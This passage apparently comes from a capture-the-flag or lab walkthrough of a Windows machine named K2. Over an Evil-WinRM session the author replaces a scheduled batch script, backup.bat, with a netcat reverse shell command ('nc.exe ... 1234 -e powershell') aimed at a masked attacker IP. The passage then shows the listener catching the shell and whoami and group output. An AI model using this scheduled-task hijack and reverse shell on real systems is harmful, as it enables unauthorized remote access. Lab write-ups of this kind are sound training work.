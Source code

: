 <p align="center">Deleted backup.bat.</p>

```bash
*Evil-WinRM* PS C:\Scripts> del backup.bat
```

<p align="center">Set up a Listener.</p>

```bash
:~/K2# nc -nlvp 1234
```

<p align="center">Created a new backup.bat and inspected its content.</p>

```bash
*Evil-WinRM* PS C:\Scripts> Set-Content -Path "C:\Scripts\backup.bat" -Value "C:\Windows\System32\Tasks\nc.exe xx.xxx.xxx.xxx 1234 -e powershell"
```

```bash
*Evil-WinRM* PS C:\Scripts> cat backup.bat
C:\Windows\System32\Tasks\nc.exe xx.xxx.xxx.xxx 1234 -e powershell
```

<br>
<br>
<br>

```bash
:~/K2# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xxx.xxx.xx 49898
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
whoami
k2\o.armstrong
```

<img width="1739" height="795" alt="{4F58079F-0240-41D7-9FBF-28B0761D6FAB}" src="https://github.com/user-attachments/assets/af224fbd-18fc-44e8-99f6-c5c9934b0e24" />

<br>
<br>
<br>

```bash
PS C:\Windows\system32> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes                                                     
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-•-•-•                                      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Performance Log Users               Alias            S-•-•-••-•••                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Remote Management Users             Alias            S-•-•-••-•••                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                               Alias            S-•-•-••-•••                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-•-•-••-•••                                 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\BATCH                          Well-known group S-•-•-•                                      Mandatory group, Enabled by default, Enabled group             
CONSOLE LOGON                               Well-known group S-•-•-•                                      Mandatory group, Enabled by default, Enabled group             
```